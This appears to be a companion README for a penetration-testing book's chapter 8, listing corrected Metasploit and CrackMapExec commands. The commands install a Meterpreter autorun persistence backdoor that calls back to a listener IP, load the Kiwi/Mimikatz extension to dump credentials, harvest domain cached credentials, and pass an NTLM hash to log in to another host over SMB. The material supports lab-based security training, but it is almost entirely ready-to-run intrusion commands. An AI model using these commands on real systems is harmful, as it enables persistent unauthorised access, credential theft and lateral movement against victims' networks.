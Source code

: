 # Chapter 8 Instructions

## Continue from Chapter 7

### Listing 8.1 Installing the Meterpreter autorun backdoor executable

Book says this

```
run persistence -A -L c:\\ -X -i 30 -p 8443 -r 10.0.10.160
```

Do this instead

```
run exploit/windows/local/persistence -A -L c:\\ -X -i 30 -p 8443 -r 10.0.10.211
```

### Listing 8.2 Reestablishing Meterpreter access automatically after system reboot

```
reboot
background
```

### Listing 8.3 Loading the Mimikatz Meterpreter extension

This won't work anymore

```
load mimikatz
help mimikatz
```

Use this instead

```
load kiwi
help kiwi
```

### Listing 8.4 Retrieving tspkg credentials with Kiwi

```
creds_all
```

### Listing 8.5 Harvesting domain cached credentials

```
run post/windows/gather/smart_cache
```

### Listing 8.9 Passing the hash with Metasploit

```
use auxiliary/scanner/smb/smb_login
set smbuser administrator
set smbpass aad3b435b51404eeaad3b435b51404ee:c1ea09ab1bab83a9c9c1f1c366576737
set smbdomain .
set rhosts 10.0.10.208
set threads 10
run
```

#### Listing 8.10 Using CrackMapExec to pass the hash

```
crackmapexec smb 10.0.10.208 --local-auth -u Administrator -H c1ea09ab1bab83a9c9c1f1c366576737
```
